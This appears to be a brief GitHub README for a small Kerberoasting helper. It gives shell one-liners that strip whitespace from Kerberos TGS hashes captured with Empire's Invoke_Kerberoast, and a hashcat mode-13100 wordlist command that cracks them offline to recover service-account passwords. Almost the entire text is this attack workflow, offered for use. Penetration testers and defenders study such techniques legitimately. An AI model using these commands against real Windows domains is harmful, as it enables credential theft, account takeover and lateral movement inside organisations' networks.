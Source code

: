 # Remove_spaces_TGS_Empire
Removing blank spaces on the TGSs obtained when executing Invoke_Kerberoast using the framework Empire.


cat file.txt | tr -d "[:blank:]" | tr -d " \t\n\r"
a=$(echo -e '$krb...'|tr -d "[:blank:]" | tr -d " \t\n\r")
echo -e $a >> file

Once done, in order to crack them you can use hashcat as follows:

hashcat -m 13100 -a 0 file /usr/share/wordlists/sqlmap.txt --force
